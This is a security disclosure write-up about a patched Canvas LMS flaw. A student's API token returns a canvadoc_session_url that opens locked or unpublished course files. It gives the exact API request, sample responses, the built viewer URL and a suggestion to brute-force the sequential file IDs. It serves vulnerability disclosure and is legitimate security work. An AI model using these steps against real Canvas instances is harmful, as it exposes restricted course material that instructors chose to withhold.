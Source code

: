 # Canvas File Oracle

**Important Notice**: This vulnerability has been patched as of 10/15/2022. 

## Exploitation Summary

Our researcher has found that due to the absent file permission checking in the API, the value of `canvadoc_session_url` makes it possible for a `student` to view any uploaded files in a course the student has enrolled, even if the file _belongs to an unpublished module_, _is locked_, or _is locked and belongs to an unpublished module_.

## Core Vulnerability 

- The **Access Token** generated by Canvas LMS behaves non-discriminatively for all roles. 
  - `GET https://canvas.example.com/api/v1/courses/{COURSE_ID}/files/{FILE_ID}` always return a JSON object containing a valid `canvadoc_session_url` property when the owner of the **Access Token** is enrolled in the `{COURSE_ID}` and `{FILE_ID}` specifies a file in `{COURSE_ID}`.
- `canvadoc_session_url` from the JSON object behaves non-discriminatively for all roles.
  - For all roles (`teacher`, `TA`, `student`), `canvadoc_session_url` provides the path (301 redirects) to a DocViewer page. The DocView is believed to be used by Canvas by being loaded in an iframe.

## Exploitation

It would be trivial to create a bruteforce attack for a specific `{COURSE_ID}` to get the `{TARGET_FILE_ID}`:

```
GET https://canvas.example.com/api/v1/courses/{COURSE_ID}/files/{TARGET_FILE_ID}
```

by bruteforcing all possible `{TARGET_FILE_ID}` values. When the `{TARGET_FILE_ID}` is not exist, API returns:

```
{
  "errors": [
    {
      "message": "The specified resource does not exist."
    }
  ]
}
```

Otherwise, API returns an JSON object containing the detailed file info: 

```
{
  "id": 153481443,
  "uuid": "VAfrXT0AGMUqmxfdMP90voq9hJCb0gOvOGQ9q4G4",
  "folder_id": 31307712,
  "display_name": "unsafe3.txt",
  "filename": "unsafe3.txt",
  "upload_status": "success",
  "content-type": "text/plain",
  "url": "",
  "size": 18,
  "created_at": "2021-09-25T03:39:19Z",
  "updated_at": "2021-09-25T04:16:51Z",
  "unlock_at": null,
  "locked": false,
  "hidden": false,
  "lock_at": null,
  "hidden_for_user": false,
  "thumbnail_url": "",
  "modified_at": "2021-09-25T03:39:19Z",
  "mime_class": "text",
  "media_entry_id": null,
  "locked_for_user": true,
  "lock_info": {
    "asset_string": "attachment_153481443",
    "context_module": {
      "id": 7687041,
      "context_id": 3550057,
      "context_type": "Course",
      "name": "Private Locked Module",
      "position": 4,
      "prerequisites": [],
      "completion_requirements": [],
      "created_at": "2021-09-25T03:30:02Z",
      "updated_at": "2021-09-25T04:16:51Z",
      "workflow_state": "unpublished",
      "deleted_at": null,
      "unlock_at": "2021-11-24T07:00:00Z",
      "migration_id": null,
      "require_sequential_progress": false,
      "cloned_item_id": null,
      "completion_events": null,
      "requirement_count": null,
      "root_account_id": 10
    },
    "unlock_at": "2021-11-24T07:00:00Z"
  },
  "lock_explanation": "This file is locked until Nov 24 at 12am.",
  "canvadoc_session_url": "/api/v1/canvadoc_session?blob=%7B%22user_id%22:70000032029297,%22attachment_id%22:153481443,%22type%22:%22canvadoc%22%7D&hmac=e423b38ecb275dca5f694e941ab1beaa4d03453d",
  "crocodoc_session_url": null
}
```

By appending `canvadoc_session_url` part to the hostname `https://canvas.examples.com`, we get something like 

```
https://canvas.examples.com/api/v1/canvadoc_session?blob=%7B%22user_id%22:70000032029297,%22attachment_id%22:153481443,%22type%22:%22canvadoc%22%7D&hmac=e423b38ecb275dca5f694e941ab1beaa4d03453d
```

Which redirects to a DovViewer showing the contents of the file, even if the file is current `UNPUBLISHED` or even `LOCKED`.

## Attack Improvement

The attack efficiency could be greatly amplified if the attacker could make an educated guess for the `FileID`, which is `serialized` for each Canvas LMS instance installation.
